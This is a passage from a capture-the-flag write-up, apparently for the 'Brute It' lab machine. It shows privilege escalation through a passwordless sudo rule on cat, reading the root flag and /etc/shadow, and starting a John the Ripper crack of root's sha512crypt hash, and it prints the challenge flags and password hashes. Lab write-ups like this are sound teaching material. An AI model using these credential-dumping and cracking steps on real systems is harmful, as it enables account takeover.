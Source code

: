  ```
  uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
  ```

- Perfect, let's get those flags shall we?

---

## 🧍 User Privilege Escalation

- You already know the hustle here. This will complete the shell access part.

  ```
  john@bruteit:~$ whoami
  john
  john@bruteit:~$ id
  uid=1001(john) gid=1001(john) groups=1001(john),27(sudo)
  john@bruteit:~$ ls
  user.txt
  john@bruteit:~$ cat user.txt 
  THM{a_password_is_not_a_barrier}
  ```
  
- Moving to escalation.

---

## 👑 Root Privilege Escalation

- It's time to finish the job! This one is pretty simple ngl, use `sudo -l` and you'll see what I'm talking about.

  ```
  john@bruteit:~$ sudo -l
  Matching Defaults entries for john on bruteit:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User john may run the following commands on bruteit:
      (root) NOPASSWD: /bin/cat
  ```
  
- You got it right? We can execute `cat` command as sudo without password. That will help us answer last two questions in this challenge. Let's get the flag first.

  ```
  john@bruteit:~$ sudo cat /root/root.txt
  THM{pr1v1l3g3_3sc4l4t10n}
  ```
  
- Now for the password, you have few different options. I just read the `/etc/shadow`, took root's hash and cracked it.

  ```
  john@bruteit:~$ sudo cat /etc/shadow
  root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
  daemon:*:18295:0:99999:7:::
  [SNIP!]
  thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
  sshd:*:18489:0:99999:7:::

  echo '$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.' > root.hash
  
  john --wordlist=/home/mauzware/Desktop/rockyou.txt --format=sha512crypt root.hash 
  Using default input encoding: UTF-8
  Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
  ```